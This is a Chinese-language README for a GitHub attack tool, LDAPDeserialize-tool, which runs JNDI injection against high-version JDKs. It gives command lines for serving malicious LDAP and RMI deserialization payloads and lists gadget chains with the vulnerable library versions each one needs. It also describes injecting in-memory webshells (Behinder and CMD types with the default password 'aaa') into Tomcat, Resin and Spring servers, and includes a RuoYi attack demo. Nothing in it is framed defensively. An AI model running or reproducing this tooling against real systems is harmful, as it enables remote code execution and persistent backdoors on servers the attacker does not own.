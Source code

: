 ## LDAPDeserialize-tool
一款针对高版本JDK的JNDI注入工具

### 依赖环境
JDK8

### 功能描述
#### 使用简述
```shell
反序列化文件方式：java -jar LDAPDeserialize-tool.jar -p 1389 -f D:/1.ser
反序列化base64方式：java -jar LDAPDeserialize-tool.jar -p 1389 -b base64数据
低版本动态请求class：
java -jar LDAPDeserialize-tool.jar -C http://127.0.0.1:8000/1.class
内置反序列化链：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc"
RMI反序列化打法：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc" -rmi
RMI内置利用链遍历：
java -jar LDAPDeserialize-tool.jar -g execAll -c "calc" -rmi -ip 当前服务器公网ip
内存马注入：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c TomcatListenerBehinderByLei
```
#### 参数说明
```shell
 -b,--base64 <arg>   反序列化打法：序列化数据base64编码值
 -C,--class <arg>    低版本动态请求class实例化方式：class文件请求URL（需自己生成class文件，开启web服务）
 -c,--cmd <arg>      使用内置反序列化链时所要执行的命令，或指定所要打的内存马类型（存在空格时请使用双引号包裹）
 -f,--file <arg>     反序列化打法：序列化数据文件路径
 -g,--gadget <arg>   内置反序列化链
 -ip,--ip <arg>      VPS-IP地址
 -p,--port <arg>     监听的端口，默认1389
 -path <arg>         内存马路径,格式为/xxx,不传入会生成一个随机地址,listener型内存马不需要
 -rmi,--rmi          rmi反序列化打法，可打JDK20+，只支持内置链打法
```
#### 支持说明
```
【目前支持的链,*号为支持JDK20+的链】
fastjson (依赖：1.2.49-1.2.83)

* CC6 (依赖：<= commons-collections 3.2.1)
CC4 (依赖：commons-collections4 4.0)
jackson (依赖：jackson-databind 2.10.0及以上版本)
jackson2 (稳定版，依赖：jackson-databind 2.10.0及以上版本 && <= spring aop 5.x)
groovy (依赖：groovy 2.3.9)
hibernate (依赖：hibernate 5.x && spring-context &&
                           reactor-core)[hibernate为ClassPathXmlApplication
                           Context执行，'-c'后跟上xml文件WEB地址]
CB192 (依赖：commons-beanutils 1.9.2 && commons-logging 1.2)
CB183 (依赖：commons-beanutils 1.8.3 && commons-logging 1.2)
rome (依赖：Rome 1.0)
execAll (利用链遍历，跑完一次要重新开脚本，依赖：tomcat)

【目前支持的内存马类型】
目前所有内存马默认密码均为：aaa
【Tomcat目前兼容Tomcat8,9】
TomcatListenerBehinder (冰蝎4.1默认马子)
TomcatListenerBehinderByLei (tomcat listener冰蝎马，打入改版的马子，需用改版的冰蝎ByLei)
TomcatListenerCMD (tomcat listener cmd马，http://ip:port/xx/zz?pass=aaa&cmd=whoami)
ResinListenerCMD (Resin listener型CMD内存马)
ResinListenerBehinder (Resin listener型冰蝎4.1内存马)
SpringInterceptorBehinder (Spring Interceptor型冰蝎4.1内存马)
```

### 使用演示
#### 使用指定反序列化文件

使用ysoserial.jar生成序列化文件1.ser，读取该文件启动，客户端访问后将执行反序列化操作

![截图](image/cc370864ddff7bce2c17cdf15b6b2df3.png)

#### 使用指定反序列化数据

使用base64编码后的序列化数据启动

![截图](image/10b93a10ec217bb82424756bc05c413b.png)

#### 使用内置反序列化链

![截图](image/99b85665c9c03cedeb281f5729c6d945.png)

#### 使用RMI反序列化方式

当前RMI反序列化方式仅支持内置的反序列化链

![截图](image/e49210b2672c44f1ba10bd784bbefc56.png)

#### 内存马注入
##### CMD马

![截图](image/Snipaste_2024-08-06_17-10-12.png)

![截图](image/Snipaste_2024-08-06_17-14-38.png)


##### 冰蝎马

![截图](image/image-20240806154150477.png)

![截图](image/Snipaste_2024-08-06_15-43-51.png)

![截图](image/Snipaste_2024-08-06_15-45-48.png)
###### 指定路径
![](image/Snipaste_2024-08-28_23-26-00.png)
![](image/Snipaste_2024-08-28_23-28-04.png)

###### 若依JNDI注入内存马
![](image/Snipaste_2024-09-11_18-25-08.png)
![Snipaste_2024-09-11_18-26-44.png](image%2FSnipaste_2024-09-11_18-26-44.png)
执行该计划任务
![Snipaste_2024-09-11_18-27-42.png](image%2FSnipaste_2024-09-11_18-27-42.png)
![Snipaste_2024-09-11_18-28-21.png](image%2FSnipaste_2024-09-11_18-28-21.png)

### TODO
- 增加内存马类型及兼容性

### Star

[![恒星历史图表](https://api.star-history.com/svg?repos=C3P0ooo/LDAPDeserialize-tool&type=Timeline)](https://star-history.com/#C3P0ooo/LDAPDeserialize-tool&Timeline)

![GitHub lerna version](https://img.shields.io/github/lerna-json/v/:user/:repo)
